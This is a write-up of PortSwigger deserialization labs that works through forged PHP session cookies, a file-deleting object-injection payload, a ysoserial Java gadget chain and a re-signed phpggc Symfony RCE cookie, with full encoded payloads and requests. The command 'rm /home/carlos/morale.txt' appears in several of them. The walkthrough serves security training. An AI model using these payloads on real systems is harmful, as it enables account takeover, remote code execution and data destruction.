01 Modifying serialized objects
===============================

This lab uses a serialization-based session mechanism and is vulnerable to
privilege escalation as a result. To solve the lab, edit the serialized object
in the session cookie to exploit this vulnerability and gain administrative
privileges. Then, delete Carlos's account.

You can log in to your own account using the following credentials: wiener:peter

References:

-   https://portswigger.net/web-security/deserialization/exploiting



After logging in, there is a cookie with value
“Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czo1OiJhZG1pbiI7YjowO30%3d”:



We can decode it in the Decoder:



We can change the value to 1 and encode:



With this cookie we can see the admin panel:





02 Modifying serialized data types
==================================

This lab uses a serialization-based session mechanism and is vulnerable to
authentication bypass as a result. To solve the lab, edit the serialized object
in the session cookie to access the administrator account. Then, delete Carlos.

You can log in to your own account using the following credentials: wiener:peter

Hint: To access another user's account, you will need to exploit a quirk in how
PHP compares data of different types.

References:

-   https://portswigger.net/web-security/deserialization/exploiting



First intercept a request after logging in:



Then decode the content of the session cookie:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"z6217dzgdnj1g7ukjodao93t39fw1jvb";}
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



Test with the same username and an access token equal to the integer 0:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";i:0;}
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtpOjA7fQ==
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



Then change the username to “administrator” and update the length of that
string:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
O:4:"User":2:{s:8:"username";s:13:"administrator";s:12:"access_token";i:0;}
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjEzOiJhZG1pbmlzdHJhdG9yIjtzOjEyOiJhY2Nlc3NfdG9rZW4iO2k6MDt9
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



Then delete the user:



03 - Using application functionality to exploit insecure deserialization
========================================================================

This lab uses a serialization-based session mechanism. A certain feature invokes
a dangerous method on data provided in a serialized object. To solve the lab,
edit the serialized object in the session cookie and use it to delete the
morale.txt file from Carlos's home directory.

You can log in to your own account using the following credentials: wiener:peter

You also have access to a backup account: gregg:rosebud

References:

-   https://portswigger.net/web-security/deserialization

-   https://portswigger.net/web-security/deserialization/exploiting





Generated link:
https://0a1a00ed03d73b06805d1790005000f1.web-security-academy.net

After logging in, the session contains a serialized object:



Decoding it as url and then as base64 we can read the serialized object:



~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
O:4:"User":3:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"nkp0la3e72b8bin6215t80l8l7qkjv2v";s:11:"avatar_link";s:19:"users/wiener/avatar";}
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



Object of class “User” has 3 parameters: - username - access_token - avatar_link

Burp detects this as well:



Trying to upload PHP as avatar:



Trying to change the user in the session object to ricardo:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
O:4:"User":3:{s:8:"username";s:7:"ricardo";s:12:"access_token";s:32:"ut8z43bk6jtuk09nn9ahkzax9okpyr6l";s:11:"avatar_link";s:18:"users/gregg/avatar";}
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



We want to delete /home/carlos/morale.txt file and the avatar image is probably
deleted when deleting the account, so we will change the object to:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
O:4:"User":3:{s:8:"username";s:5:"gregg";s:12:"access_token";s:32:"ut8z43bk6jtuk09nn9ahkzax9okpyr6l";s:11:"avatar_link";s:23:"/home/carlos/morale.txt";}
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Encoded:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Tzo0OiJVc2VyIjozOntzOjg6InVzZXJuYW1lIjtzOjU6ImdyZWdnIjtzOjEyOiJhY2Nlc3NfdG9rZW4iO3M6MzI6InV0OHo0M2JrNmp0dWswOW5uOWFoa3pheDlva3B5cjZsIjtzOjExOiJhdmF0YXJfbGluayI7czoyMzoiL2hvbWUvY2FybG9zL21vcmFsZS50eHQiO30=
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

I change the session object in the 2 requests generated when deleting the
acount:





04 Arbitrary object injection in PHP
====================================

This lab uses a serialization-based session mechanism and is vulnerable to
arbitrary object injection as a result. To solve the lab, create and inject a
malicious serialized object to delete the morale.txt file from Carlos's home
directory. You will need to obtain source code access to solve this lab.

You can log in to your own account using the following credentials: wiener:peter

Hint: You can sometimes read source code by appending a tilde (\~) to a filename
to retrieve an editor-generated backup file.

References:

-   https://portswigger.net/web-security/deserialization/exploiting





First intercept a request after logging in:



Then decode the content of the session cookie:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"jhc3a45gerbcjxx72wi9m1xydqvwubxa";}
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



From Burp we can find a PHP file in /libs:



And read it at “/libs/CustomTemplate.php\~”:



~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
<?php

class CustomTemplate {
    private $template_file_path;
    private $lock_file_path;

    public function __construct($template_file_path) {
        $this->template_file_path = $template_file_path;
        $this->lock_file_path = $template_file_path . ".lock";
    }

    private function isTemplateLocked() {
        return file_exists($this->lock_file_path);
    }

    public function getTemplate() {
        return file_get_contents($this->template_file_path);
    }

    public function saveTemplate($template) {
        if (!isTemplateLocked()) {
            if (file_put_contents($this->lock_file_path, "") === false) {
                throw new Exception("Could not write to " . $this->lock_file_path);
            }
            if (file_put_contents($this->template_file_path, $template) === false) {
                throw new Exception("Could not write to " . $this->template_file_path);
            }
        }
    }

    function __destruct() {
        // Carlos thought this would be a good idea
        if (file_exists($this->lock_file_path)) {
            unlink($this->lock_file_path);
        }
    }
}

?>
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

From https://www.php.net/manual/en/function.unlink.php:



We have to create a “CustomTemplate” object that calls “__destruct()” so it
deletes the file “/home/carlos/morale.txt”, something like
\__destruct("/home/carlos/morale.txt"). We will initialize “template_file_path”
and “lock_file_path” to the path of the file we want to delete:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
O:14:"CustomTemplate":2:{s:18:"template_file_path";s:23:"/home/carlos/morale.txt";s:14:"lock_file_path";s:23:"/home/carlos/morale.txt";}
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
TzoxNDoiQ3VzdG9tVGVtcGxhdGUiOjI6e3M6MTg6InRlbXBsYXRlX2ZpbGVfcGF0aCI7czoyMzoiL2hvbWUvY2FybG9zL21vcmFsZS50eHQiO3M6MTQ6ImxvY2tfZmlsZV9wYXRoIjtzOjIzOiIvaG9tZS9jYXJsb3MvbW9yYWxlLnR4dCI7fQ==
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



And send it in a request. It generates a 500 error code but the file is deleted:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
GET / HTTP/2
...
Cookie: session=TzoxNDoiQ3VzdG9tVGVtcGxhdGUiOjI6e3M6MTg6InRlbXBsYXRlX2ZpbGVfcGF0aCI7czoyMzoiL2hvbWUvY2FybG9zL21vcmFsZS50eHQiO3M6MTQ6ImxvY2tfZmlsZV9wYXRoIjtzOjIzOiIvaG9tZS9jYXJsb3MvbW9yYWxlLnR4dCI7fQ==
...
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



05 Exploiting Java deserialization with Apache Commons
======================================================

This lab uses a serialization-based session mechanism and loads the Apache
Commons Collections library. Although you don't have source code access, you can
still exploit this lab using pre-built gadget chains.

To solve the lab, use a third-party tool to generate a malicious serialized
object containing a remote code execution payload. Then, pass this object into
the website to delete the morale.txt file from Carlos's home directory.

You can log in to your own account using the following credentials: wiener:peter

References:

-   https://portswigger.net/web-security/deserialization/exploiting



First intercept a request after logging in:



If we decode we can not read the object as earlier:



I created a payload with Ysoserial:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
java -jar ysoserial-all.jar CommonsCollections1 "rm /home/carlos/morale.txt" | base64 | tr -d "\n"
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



But it generates and error and the file is not deleted:



With CommonsCollections2 it generates an error but the file is deleted:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
java -jar ysoserial-all.jar CommonsCollections2 "rm /home/carlos/morale.txt" | base64 | tr -d "\n"
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
GET / HTTP/2
...
Cookie: session=rO0ABXNyADJzdW4ucmVmbGVjdC5hbm5vdGF0aW9uLkFubm90YXRpb25JbnZvY2F0aW9uSGFuZGxlclXK9Q8Vy36lAgACTAAMbWVtYmVyVmFsdWVzdAAPTGphdmEvdXRpbC9NYXA7TAAEdHlwZXQAEUxqYXZhL2xhbmcvQ2xhc3M7eHBzfQAAAAEADWphdmEudXRpbC5NYXB4cgAXamF2YS5sYW5nLnJlZmxlY3QuUHJveHnhJ9ogzBBDywIAAUwAAWh0ACVMamF2YS9sYW5nL3JlZmxlY3QvSW52b2NhdGlvbkhhbmRsZXI7eHBzcQB%2bAABzcgAqb3JnLmFwYWNoZS5jb21tb25zLmNvbGxlY3Rpb25zLm1hcC5MYXp5TWFwbuWUgp55EJQDAAFMAAdmYWN0b3J5dAAsTG9yZy9hcGFjaGUvY29tbW9ucy9jb2xsZWN0aW9ucy9UcmFuc2Zvcm1lcjt4cHNyADpvcmcuYXBhY2hlLmNvbW1vbnMuY29sbGVjdGlvbnMuZnVuY3RvcnMuQ2hhaW5lZFRyYW5zZm9ybWVyMMeX7Ch6lwQCAAFbAA1pVHJhbnNmb3JtZXJzdAAtW0xvcmcvYXBhY2hlL2NvbW1vbnMvY29sbGVjdGlvbnMvVHJhbnNmb3JtZXI7eHB1cgAtW0xvcmcuYXBhY2hlLmNvbW1vbnMuY29sbGVjdGlvbnMuVHJhbnNmb3JtZXI7vVYq8dg0GJkCAAB4cAAAAAJzcgA7b3JnLmFwYWNoZS5jb21tb25zLmNvbGxlY3Rpb25zLmZ1bmN0b3JzLkNvbnN0YW50VHJhbnNmb3JtZXJYdpARQQKxlAIAAUwACWlDb25zdGFudHQAEkxqYXZhL2xhbmcvT2JqZWN0O3hwdnIAN2NvbS5zdW4ub3JnLmFwYWNoZS54YWxhbi5pbnRlcm5hbC54c2x0Yy50cmF4LlRyQVhGaWx0ZXIAAAAAAAAAAAAAAHhwc3IAPm9yZy5hcGFjaGUuY29tbW9ucy5jb2xsZWN0aW9ucy5mdW5jdG9ycy5JbnN0YW50aWF0ZVRyYW5zZm9ybWVyNIv0f6SG0DsCAAJbAAVpQXJnc3QAE1tMamF2YS9sYW5nL09iamVjdDtbAAtpUGFyYW1UeXBlc3QAEltMamF2YS9sYW5nL0NsYXNzO3hwdXIAE1tMamF2YS5sYW5nLk9iamVjdDuQzlifEHMpbAIAAHhwAAAAAXNyADpjb20uc3VuLm9yZy5hcGFjaGUueGFsYW4uaW50ZXJuYWwueHNsdGMudHJheC5UZW1wbGF0ZXNJbXBsCVdPwW6sqzMDAAZJAA1faW5kZW50TnVtYmVySQAOX3RyYW5zbGV0SW5kZXhbAApfYnl0ZWNvZGVzdAADW1tCWwAGX2NsYXNzcQB%2bABhMAAVfbmFtZXQAEkxqYXZhL2xhbmcvU3RyaW5nO0wAEV9vdXRwdXRQcm9wZXJ0aWVzdAAWTGphdmEvdXRpbC9Qcm9wZXJ0aWVzO3hwAAAAAP////91cgADW1tCS/0ZFWdn2zcCAAB4cAAAAAJ1cgACW0Ks8xf4BghU4AIAAHhwAAAGqsr%2bur4AAAAyADkKAAMAIgcANwcAJQcAJgEAEHNlcmlhbFZlcnNpb25VSUQBAAFKAQANQ29uc3RhbnRWYWx1ZQWtIJPzkd3vPgEABjxpbml0PgEAAygpVgEABENvZGUBAA9MaW5lTnVtYmVyVGFibGUBABJMb2NhbFZhcmlhYmxlVGFibGUBAAR0aGlzAQATU3R1YlRyYW5zbGV0UGF5bG9hZAEADElubmVyQ2xhc3NlcwEANUx5c29zZXJpYWwvcGF5bG9hZHMvdXRpbC9HYWRnZXRzJFN0dWJUcmFuc2xldFBheWxvYWQ7AQAJdHJhbnNmb3JtAQByKExjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvRE9NO1tMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOylWAQAIZG9jdW1lbnQBAC1MY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL0RPTTsBAAhoYW5kbGVycwEAQltMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOwEACkV4Y2VwdGlvbnMHACcBAKYoTGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ET007TGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvZHRtL0RUTUF4aXNJdGVyYXRvcjtMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOylWAQAIaXRlcmF0b3IBADVMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9kdG0vRFRNQXhpc0l0ZXJhdG9yOwEAB2hhbmRsZXIBAEFMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOwEAClNvdXJjZUZpbGUBAAxHYWRnZXRzLmphdmEMAAoACwcAKAEAM3lzb3NlcmlhbC9wYXlsb2Fkcy91dGlsL0dhZGdldHMkU3R1YlRyYW5zbGV0UGF5bG9hZAEAQGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ydW50aW1lL0Fic3RyYWN0VHJhbnNsZXQBABRqYXZhL2lvL1NlcmlhbGl6YWJsZQEAOWNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9UcmFuc2xldEV4Y2VwdGlvbgEAH3lzb3NlcmlhbC9wYXlsb2Fkcy91dGlsL0dhZGdldHMBAAg8Y2xpbml0PgEAEWphdmEvbGFuZy9SdW50aW1lBwAqAQAKZ2V0UnVudGltZQEAFSgpTGphdmEvbGFuZy9SdW50aW1lOwwALAAtCgArAC4BABpybSAvaG9tZS9jYXJsb3MvbW9yYWxlLnR4dAgAMAEABGV4ZWMBACcoTGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvUHJvY2VzczsMADIAMwoAKwA0AQANU3RhY2tNYXBUYWJsZQEAG3lzb3NlcmlhbC9Qd25lcjc0ODI3MDUyNTM2NwEAHUx5c29zZXJpYWwvUHduZXI3NDgyNzA1MjUzNjc7ACEAAgADAAEABAABABoABQAGAAEABwAAAAIACAAEAAEACgALAAEADAAAAC8AAQABAAAABSq3AAGxAAAAAgANAAAABgABAAAALwAOAAAADAABAAAABQAPADgAAAABABMAFAACAAwAAAA/AAAAAwAAAAGxAAAAAgANAAAABgABAAAANAAOAAAAIAADAAAAAQAPADgAAAAAAAEAFQAWAAEAAAABABcAGAACABkAAAAEAAEAGgABABMAGwACAAwAAABJAAAABAAAAAGxAAAAAgANAAAABgABAAAAOAAOAAAAKgAEAAAAAQAPADgAAAAAAAEAFQAWAAEAAAABABwAHQACAAAAAQAeAB8AAwAZAAAABAABABoACAApAAsAAQAMAAAAJAADAAIAAAAPpwADAUy4AC8SMbYANVexAAAAAQA2AAAAAwABAwACACAAAAACACEAEQAAAAoAAQACACMAEAAJdXEAfgAjAAAB1Mr%2bur4AAAAyABsKAAMAFQcAFwcAGAcAGQEAEHNlcmlhbFZlcnNpb25VSUQBAAFKAQANQ29uc3RhbnRWYWx1ZQVx5mnuPG1HGAEABjxpbml0PgEAAygpVgEABENvZGUBAA9MaW5lTnVtYmVyVGFibGUBABJMb2NhbFZhcmlhYmxlVGFibGUBAAR0aGlzAQADRm9vAQAMSW5uZXJDbGFzc2VzAQAlTHlzb3NlcmlhbC9wYXlsb2Fkcy91dGlsL0dhZGdldHMkRm9vOwEAClNvdXJjZUZpbGUBAAxHYWRnZXRzLmphdmEMAAoACwcAGgEAI3lzb3NlcmlhbC9wYXlsb2Fkcy91dGlsL0dhZGdldHMkRm9vAQAQamF2YS9sYW5nL09iamVjdAEAFGphdmEvaW8vU2VyaWFsaXphYmxlAQAfeXNvc2VyaWFsL3BheWxvYWRzL3V0aWwvR2FkZ2V0cwAhAAIAAwABAAQAAQAaAAUABgABAAcAAAACAAgAAQABAAoACwABAAwAAAAvAAEAAQAAAAUqtwABsQAAAAIADQAAAAYAAQAAADwADgAAAAwAAQAAAAUADwASAAAAAgATAAAAAgAUABEAAAAKAAEAAgAWABAACXB0AARQd25ycHcBAHh1cgASW0xqYXZhLmxhbmcuQ2xhc3M7qxbXrsvNWpkCAAB4cAAAAAF2cgAdamF2YXgueG1sLnRyYW5zZm9ybS5UZW1wbGF0ZXMAAAAAAAAAAAAAAHhwc3IAEWphdmEudXRpbC5IYXNoTWFwBQfawcMWYNEDAAJGAApsb2FkRmFjdG9ySQAJdGhyZXNob2xkeHA/QAAAAAAAAHcIAAAAEAAAAAB4eHZyABJqYXZhLmxhbmcuT3ZlcnJpZGUAAAAAAAAAAAAAAHhwcQB%2bAC4%3d+
...
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



06 Exploiting PHP deserialization with a pre-built gadget chain
===============================================================

This lab has a serialization-based session mechanism that uses a signed cookie.
It also uses a common PHP framework. Although you don't have source code access,
you can still exploit this lab's insecure deserialization using pre-built gadget
chains.

To solve the lab, identify the target framework then use a third-party tool to
generate a malicious serialized object containing a remote code execution
payload. Then, work out how to generate a valid signed cookie containing your
malicious object. Finally, pass this into the website to delete the morale.txt
file from Carlos's home directory.

You can log in to your own account using the following credentials: wiener:peter

References:

-   https://portswigger.net/web-security/deserialization/exploiting



First intercept a request after logging in:



If we URL-decode it we can read the object:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
{"token":"Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJ0Zzdxczh5eTFtb2hrdTc4ZmIwYm5kMXdtdDJoNXlmYyI7fQ==","sig_hmac_sha1":"3cf317d5f0262ffc0ada548bbf83a02afdfc4463"}
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



And decode the token:



From Burp we can find /cgi-bin/phpinfo:



From here we can find it uses Zend Engine 3.4.0:



We also find a secret key:



Using the mentioned tool we see there are payloads for Zend
https://github.com/ambionics/phpggc:



~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
./phpggc ZendFramework/FD1 /home/carlos/morale.txt   

O:25:"Zend_Http_Response_Stream":2:{s:11:"*_cleanup";b:1;s:14:"*stream_name";s:23:"/home/carlos/morale.txt";}

./phpggc ZendFramework/FD1 /home/carlos/morale.txt -b

TzoyNToiWmVuZF9IdHRwX1Jlc3BvbnNlX1N0cmVhbSI6Mjp7czoxMToiACoAX2NsZWFudXAiO2I6MTtzOjE0OiIAKgBzdHJlYW1fbmFtZSI7czoyMzoiL2hvbWUvY2FybG9zL21vcmFsZS50eHQiO30=
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



Using this online tool
(https://www.freeformatter.com/hmac-generator.html\#before-output) I found the
signature of the serialized object ("sig_hmac_sha1") is generated with the
SECRET_KEY from phpinfo.php:



So we can calculate the signature for this new object the same way:



~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
{"token":"TzoyNToiWmVuZF9IdHRwX1Jlc3BvbnNlX1N0cmVhbSI6Mjp7czoxMToiACoAX2NsZWFudXAiO2I6MTtzOjE0OiIAKgBzdHJlYW1fbmFtZSI7czoyMzoiL2hvbWUvY2FybG9zL21vcmFsZS50eHQiO30=","sig_hmac_sha1":"f0c54df92c8ecacafe56beb6765d6632a35259a0"}
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

URL-encoded:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
%7B%22token%22%3A%22TzoyNToiWmVuZF9IdHRwX1Jlc3BvbnNlX1N0cmVhbSI6Mjp7czoxMToiACoAX2NsZWFudXAiO2I6MTtzOjE0OiIAKgBzdHJlYW1fbmFtZSI7czoyMzoiL2hvbWUvY2FybG9zL21vcmFsZS50eHQiO30%3d%22%2C%22sig_hmac_sha1%22%3A%22f0c54df92c8ecacafe56beb6765d6632a35259a0%22%7D
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

It does not seem to delete the file:



From the solutions I found it is in fact Symfony even if nothing in phpinfo.php
points to that technology, so the payload we generate now is:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
./phpggc Symfony/RCE4 exec 'rm /home/carlos/morale.txt' -b

Tzo0NzoiU3ltZm9ueVxDb21wb25lbnRcQ2FjaGVcQWRhcHRlclxUYWdBd2FyZUFkYXB0ZXIiOjI6e3M6NTc6IgBTeW1mb255XENvbXBvbmVudFxDYWNoZVxBZGFwdGVyXFRhZ0F3YXJlQWRhcHRlcgBkZWZlcnJlZCI7YToxOntpOjA7TzozMzoiU3ltZm9ueVxDb21wb25lbnRcQ2FjaGVcQ2FjaGVJdGVtIjoyOntzOjExOiIAKgBwb29sSGFzaCI7aToxO3M6MTI6IgAqAGlubmVySXRlbSI7czoyNjoicm0gL2hvbWUvY2FybG9zL21vcmFsZS50eHQiO319czo1MzoiAFN5bWZvbnlcQ29tcG9uZW50XENhY2hlXEFkYXB0ZXJcVGFnQXdhcmVBZGFwdGVyAHBvb2wiO086NDQ6IlN5bWZvbnlcQ29tcG9uZW50XENhY2hlXEFkYXB0ZXJcUHJveHlBZGFwdGVyIjoyOntzOjU0OiIAU3ltZm9ueVxDb21wb25lbnRcQ2FjaGVcQWRhcHRlclxQcm94eUFkYXB0ZXIAcG9vbEhhc2giO2k6MTtzOjU4OiIAU3ltZm9ueVxDb21wb25lbnRcQ2FjaGVcQWRhcHRlclxQcm94eUFkYXB0ZXIAc2V0SW5uZXJJdGVtIjtzOjQ6ImV4ZWMiO319
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Signature is fbe3dee997e7304ff810a2806c562e5ef9523d67 so the request will be:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
GET /my-account HTTP/2
...
Cookie: session=%7B%22token%22%3A%22Tzo0NzoiU3ltZm9ueVxDb21wb25lbnRcQ2FjaGVcQWRhcHRlclxUYWdBd2FyZUFkYXB0ZXIiOjI6e3M6NTc6IgBTeW1mb255XENvbXBvbmVudFxDYWNoZVxBZGFwdGVyXFRhZ0F3YXJlQWRhcHRlcgBkZWZlcnJlZCI7YToxOntpOjA7TzozMzoiU3ltZm9ueVxDb21wb25lbnRcQ2FjaGVcQ2FjaGVJdGVtIjoyOntzOjExOiIAKgBwb29sSGFzaCI7aToxO3M6MTI6IgAqAGlubmVySXRlbSI7czoyNjoicm0gL2hvbWUvY2FybG9zL21vcmFsZS50eHQiO319czo1MzoiAFN5bWZvbnlcQ29tcG9uZW50XENhY2hlXEFkYXB0ZXJcVGFnQXdhcmVBZGFwdGVyAHBvb2wiO086NDQ6IlN5bWZvbnlcQ29tcG9uZW50XENhY2hlXEFkYXB0ZXJcUHJveHlBZGFwdGVyIjoyOntzOjU0OiIAU3ltZm9ueVxDb21wb25lbnRcQ2FjaGVcQWRhcHRlclxQcm94eUFkYXB0ZXIAcG9vbEhhc2giO2k6MTtzOjU4OiIAU3ltZm9ueVxDb21wb25lbnRcQ2FjaGVcQWRhcHRlclxQcm94eUFkYXB0ZXIAc2V0SW5uZXJJdGVtIjtzOjQ6ImV4ZWMiO319%22%2C%22sig_hmac_sha1%22%3A%22949d68ba69539c85a418c7939d1607a6bc3be7f7%22%7D
...
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

It generates a Symfony error but the file is deleted:



07 Exploiting Ruby deserialization using a documented gadget chain
==================================================================

This lab uses a serialization-based session mechanism and the Ruby on Rails
framework. There are documented exploits that enable remote code execution via a
gadget chain in this framework.

To solve the lab, find a documented exploit and adapt it to create a malicious
serialized object containing a remote code execution payload. Then, pass this
object into the website to delete the morale.txt file from Carlos's home
directory.

You can log in to your own account using the following credentials: wiener:peter

